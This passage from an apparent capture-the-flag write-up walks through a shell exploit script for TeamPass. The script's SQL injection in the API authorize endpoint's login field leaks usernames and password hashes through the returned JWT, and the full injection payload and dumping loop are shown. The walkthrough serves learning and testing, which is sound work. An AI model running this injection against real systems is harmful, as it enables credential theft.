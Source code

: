 ```

if [ "$#" -lt 1 ]; then
  echo "Usage: $0 <base-url>"
  exit 1
fi

vulnerable_url="$1/api/index.php/authorize"

```

There’s a check to see that the API is enabled:

```

check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
  echo "API feature is not enabled :-("
  exit 1
fi

```

I can do this check, and it looks like I don’t get the “not allowed” message, which is good:

```

oxdf@hacky$ curl http://10.10.11.56:8080/api/index.php/authorize
{"error":"Method GET not supported"}

```

Next it makes a function that performs the SQL injection:

```

exec_sql() {
  inject="none' UNION SELECT id, '$arbitrary_hash', ($1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
  data="{\"login\":\""$inject\"",\"password\":\"h4ck3d\", \"apikey\": \"foo\"}"
  token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url" | jq -r '.token')
  echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key')
}

```

The injection is in the `login` parameter of the POST body sent to the `authorize` endpoint. The resulting data is leaked out through the JWT. It uses `cut` to get the middle section dividing on `.`, and then base64 decodes it.

Now it uses that function to get the number of users in the system, and then to loop over those users getting their username and password hash:

```

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do
  username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  echo "$username: $password"
done

```
